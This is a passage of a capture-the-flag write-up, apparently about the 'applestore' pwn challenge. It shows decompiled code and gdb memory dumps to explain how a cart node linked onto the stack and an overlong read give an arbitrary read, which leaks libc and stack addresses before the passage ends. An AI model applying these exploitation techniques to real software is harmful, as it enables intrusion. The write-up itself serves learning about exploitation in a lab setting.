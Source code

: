     insert((int)&ptr_to_iphone_8);
    total = 0x1C07;
  }
  printf("Total: $%d\n", total);
  puts("Want to checkout? Maybe next time!");
  return *MK_FP(__GS__, 20) ^ v4;
}
{% endhighlight %}

{% highlight bash %}
0x9683840:      0x09683860      0x09683810      0x00000000      0x00000011
0x9683850:      0x6f685069      0x3620656e      0x00000000      0x00000019
0x9683860:      0x096838f0      0x000001f3      0x09683888      0x09683838
0x9683870:      0x00000018      0x00000011      0x6f685069      0x3620656e
0x9683880:      0x00000000      0x00000019      0x096838a0      0x0000018f 
0x9683890:      0xffe04b38      0x09683860      0x00000000      0x00000011 
                ^ last_item->next = stack addr ptr 

iPhone object written to the stack:
gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0x96838b0 ("iPhone 8")                  <-- string pointer
0004| 0xffe04b3c --> 0x1                                     <-- size
0008| 0xffe04b40 --> 0xffe04b76 --> 0xb6000a35               <-- next ptr
0012| 0xffe04b44 --> 0x9683888 --> 0x96838a0 ("iPad Mini 3") <-- prev pointer
{% endhighlight %}

** This gives us an arbitrary read primitive the next time `cart()` is called, as we can also add extra data to a buffer on the stack which overlaps with `0xffe04b38` thanks to `my_read()` which unnecssarily reads `0x15` bytes into a stack buffer everytime it is called!**

After the next `my_read()` call, our iPhone object on the stack now looks like this.
{% highlight bash %}
gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0xf763dc00 (fisub  WORD PTR [esi-0x77])         
0004| 0xffe04b3c --> 0xf763b060 (<atoi+16>:     add    esp,0x1c)     
0008| 0xffe04b40 --> 0xffc1dde6 --> 0x8048834 (<create+80>:     ret) <-- we get to control data in 0xffc1dde6
0012| 0xffe04b44 --> 0x0                                             
{% endhighlight %}

**Because we can control the data that is written to `0xffc1dde6`, which is perceived as `iPhone_8->next`, we can also leak whatever addresses we want by putting our target pointers there!**

Additionally, we can directly control the data written to `0xffe04b38`, as another leak vector. 

{% highlight bash %}
gdb-peda$ telescope 0xffe04b38
0000| 0xffe04b38 --> 0x804b040 --> 0xf7576050 (<atoi>:  sub    esp,0x10)
0004| 0xffe04b3c ("AAAA\230¶°ÿ°¶°ÿ\n")
0008| 0xffe04b40 --> 0xffb0b698 --> 0x800 
0012| 0xffe04b44 --> 0xffb0b6b0 --> 0x0   
{% endhighlight %}

We use these leaking abilities to first leak libc, and then a stack address which we will use next to get code exec. 
